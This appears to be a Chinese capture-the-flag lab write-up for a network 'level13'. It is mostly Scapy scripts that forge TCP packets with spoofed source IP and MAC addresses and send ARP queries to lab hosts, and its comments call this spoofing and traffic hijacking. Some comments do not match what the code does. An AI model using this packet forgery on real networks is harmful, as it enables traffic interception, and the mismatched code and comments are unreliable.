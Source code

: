 ![level13](image-4.png)
看起来，又是建立链接？
```
sendp(Ether(src=get_if_hwaddr("eth0"),dst="ff:ff:ff:ff:ff:ff") / IP(src="10.0.0.2", dst="10.0.0.3") / TCP(sport=31337, dport=31337, seq=31337, flags="A"),iface="eth0")
```
**过程都写完了，可以写脚本了**
```10.0.0.4
from scapy.all import *

# 获取本地接口的 MAC 和 IP 地址
local_mac = get_if_hwaddr("eth0")
local_ip = get_if_addr("eth0")

# 构造 ARP 请求数据包，欺骗目标主机
arp_request = Ether(dst="ff:ff:ff:ff:ff:ff") / ARP(op="who-has", hwsrc=local_mac, psrc=local_ip, pdst="10.0.0.4")

# 发送 ARP 请求数据包，并获取目标主机的 MAC 地址
arp_response = srp(arp_request, timeout=2, iface="eth0", verbose=False)[0]
remote_mac = arp_response[0][1].hwsrc

# 构造 TCP 重定向数据包，将流量重定向到本地主机
tcp_redirect = Ether(src=remote_mac, dst=local_mac) / IP(src="10.0.0.4", dst=local_ip) / TCP(sport=31337, dport=31337, flags="PA", seq=123456, ack=0)

# 发送 TCP 重定向数据包，劫持流量
sendp(tcp_redirect, iface="eth0")
```

```10.0.0.2
from scapy.all import *

# 获取本地接口的 MAC 和 IP 地址
local_mac = get_if_hwaddr("eth0")
local_ip = get_if_addr("eth0")

# 构造 ARP 请求数据包，欺骗目标主机
arp_request = Ether(dst="ff:ff:ff:ff:ff:ff") / ARP(op="who-has", hwsrc=local_mac, psrc=local_ip, pdst="10.0.0.2")

# 发送 ARP 请求数据包，并获取目标主机的 MAC 地址
arp_response = srp(arp_request, timeout=2, iface="eth0", verbose=False)[0]
remote_mac = arp_response[0][1].hwsrc
```